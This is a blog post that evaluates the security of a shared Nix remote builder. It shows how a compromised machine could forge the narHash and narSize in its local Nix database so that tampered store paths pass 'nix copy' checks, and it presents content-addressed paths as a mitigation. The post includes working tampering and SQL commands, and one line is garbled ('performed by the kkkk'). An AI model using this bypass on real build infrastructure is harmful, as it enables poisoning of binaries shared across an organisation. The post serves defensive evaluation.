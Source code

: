 ```yaml
---
layout: post
title: Evaluating the security implications of a company-wide Nix remote builder
---
```


I am trying to test nix's security properties in this scenario:

- A company with a remote Nix builder
- `N` users have ssh write access to the remote builder
- A user's local machine is compromised, with the attacker having root access
- The attacker cannot SSH to the remote builder without user interaction (e.g. because of a YubiKey-backed SSH key)
- The builder is also used as a binary cache
- **Question**: can the attacker distribute tampered store paths to the rest of the company?

To test this scenario, I'm trying to tamper my own store paths :).

What I did:

- remount the store as read-write: `mount -o remount,rw /nix/store`
- `nix build nixpkgs#hello`
- tamper with `nixpkgs#hello`:

```
 echo foo > /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12/bin/hello
```

If I now try to copy this path to a remote store, I get the following:

```sh
nix copy --to ssh://foobar /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 
copying path '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12' to 'ssh://foobar'error: hash mismatch importing path '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12';
         specified: sha256:1047k69qrr209c6jgls43620s53w2gw7gsgwx56j0b180bsn1qhw
         got:       sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x
error: unexpected end-of-file
```

Where are the 2 hashes coming from? 

The manpage for `nix store verify` says that the command checks that a store path's

> contents match the NAR hash recorded in the Nix database

and running 

```
nix store verify /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 
path '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12' was modified! expected hash 'sha256:1047k69qrr209c6jgls43620s53w2gw7gsgwx56j0b180bsn1qhw', got 'sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x'
```

returns the same two hashes, so I went looking in the nix db, and of the 3 tables there:

```sql
sqlite> .tables
DerivationOutputs  Refs               ValidPaths  
```

`ValidPaths` seemed the most promising (as it's the only one with a `hash` column).

But searching for the `specified` or `got` hashes returned no results:

```sql
sqlite> SELECT * from ValidPaths WHERE hash = 'sha256:1047k69qrr209c6jgls43620s53w2gw7gsgwx56j0b180bsn1qhw' OR hash = 'sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x';
sqlite> 
```

The key thing here is that in Nix, hashes are stored/displayed in many different formats:

- the hash in the DB is base16
- the hash in the `nix copy` output is base32
- the hash in the `nix verify` output is base32
- the hash in the `nix path-info` output is SRI base64
- the hash in the `nix hash path` output is SRI base64

I have no idea why this is the case, and it is very confusing.

So in the interest of clarity, I'll convert all hashes we're dealing with in their SRI form (using `nix hash to-sri`):

- `specified` : `sha256-HOJg9QIoLCBN6fzpd/gTfBQNhBlE0ycNS0DkjJOZh4A=`
- `got`: `sha256-HQm86KUSV14rqFxgNJsG3JgEqIgmoTP2x7kTiJsKnEY=`

`nix path-info` returns the **expected** `narHash`:

```
❯ nix path-info --json /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 | jq -r .[0].narHash
sha256-HOJg9QIoLCBN6fzpd/gTfBQNhBlE0ycNS0DkjJOZh4A=
```


`nix hash path` returns the **actual** `narHash`:

```
❯ nix hash path /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12
sha256-HQm86KUSV14rqFxgNJsG3JgEqIgmoTP2x7kTiJsKnEY=
```

Two things to note:

- The store path is actually copied over to the remote host, but it is **not** added to its nix db's `ValidPaths` table, thereby making it invisible.
It turns out that the `narHash` comparison is actually performed by the kkkk
- The `narHash` check is performed by the remote store

An attacker could, at this point, modify the `narHash` (and the `narSize`) in the local Nix db:

```sql
sqlite> UPDATE ValidPaths
   ...> SET hash = 'sha256:1d09bce8a512575e2ba85c60349b06dc9804a88826a133f6c7b913889b0a9c46',
   ...> narSize = 125720
   ...> WHERE path = '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12';
```

And now:

```bash
❯ nix copy --to ssh://foobar /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12 

❯ echo $?
0
```

### Potential mitigations

The issue here is that paths in the store are input-addressed, meaning that
once they're in the store, there's nothing (apart from signatures, but they're
not relevant here) that prevents them from being tampered with.

Another option (still partly in the works, AFAIU) are proper [content-addressed
paths](https://github.com/tweag/rfcs/blob/cas-rfc/rfcs/0062-content-addressed-paths.md).
If we do:

```
❯ nix store make-content-addressed /nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12
rewrote '/nix/store/hkgpl034l6c5zgzhks2dyp7p41z6qyc4-hello-2.12' to '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12'

❯ nix path-info --json /nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12 | jq .
[
  {
    "path": "/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12",
    "narHash": "sha256-HQm86KUSV14rqFxgNJsG3JgEqIgmoTP2x7kTiJsKnEY=",
    "narSize": 125720,
    "references": [
      "/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12",
      "/nix/store/ah5d5gjqyv319ir95lm8bc44ikkzm10i-glibc-2.34-115"
    ],
    "ca": "fixed:r:sha256:0ilw1adqh4xrqzv37896i2l0966w0sdk8q2wm0mmwmqjlplbq28x",
    "registrationTime": 1653987573
  }
]
```

we can see that the path now has an additional field, `ca`, which contains the hash of its actual content.

This cannot be tampered with, unless one is able to break the hashing algorithm and produce a collision.

After tampering with the `narHash` and the `narSize` as above, we are now presented with this error:

```
nix copy --to ssh://foobar /nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12
copying path '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12' to 'ssh://foobar'warning: path '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12' claims to be content-addressed but isn't
error: cannot add path '/nix/store/9xnc7c495iw6lqk9wxb5r1v8003sp3rp-hello-2.12' to the Nix store because it claims to be content-addressed but isn't
error: unexpected end-of-file
```

### Conclusions

Adding a remote builder opens up the possibility that an attacker might sneak
in malicious store paths, which could be very hard to detect. In effect, the
remote builder's store becomes a db with multiple writers, each of which
has access full read/write access.

CA derivations provide a mitigation for this usecase, and they rely on the security properties of the hashing algorithm.

It's important to be aware of this when evaluating a nix build infrastructure.

